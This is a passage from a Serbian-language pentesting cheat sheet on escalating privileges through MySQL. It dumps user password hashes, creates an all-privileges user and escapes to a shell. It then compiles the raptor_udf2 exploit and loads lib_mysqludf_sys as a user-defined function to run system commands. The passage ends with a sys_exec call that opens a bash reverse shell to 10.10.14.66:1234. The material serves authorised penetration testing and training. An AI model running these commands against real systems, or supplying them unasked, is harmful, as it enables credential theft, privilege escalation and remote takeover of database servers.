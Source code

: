 #### Eskalacija privilegija

```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Get users, permissions & creds
SELECT * FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```

#### Eskalacija privilegija putem biblioteke

Ako **mysql server radi kao root** (ili drugi korisnik sa više privilegija), možete ga naterati da izvršava komande. Za to je potrebno koristiti **korisnički definisane funkcije**. Da biste kreirali korisnički definisanu funkciju, potrebna vam je **biblioteka** za operativni sistem na kojem se izvršava mysql.

Zlonamerna biblioteka koju treba koristiti može se pronaći unutar sqlmap-a i metasploita pomoću komande **`locate "*lib_mysqludf_sys*"`**. Datoteke sa ekstenzijom **`.so`** su **linux** biblioteke, a one sa ekstenzijom **`.dll`** su **Windows** biblioteke, izaberite onu koja vam je potrebna.

Ako **nemate** te biblioteke, možete ih ili **potražiti**, ili preuzeti ovaj [**linux C kod**](https://www.exploit-db.com/exploits/1518) i **kompajlirati ga unutar ranjive linux mašine**:

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Sada kada imate biblioteku, prijavite se unutar Mysql-a kao privilegovan korisnik (root?) i pratite sledeće korake:

**Linux**

```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```
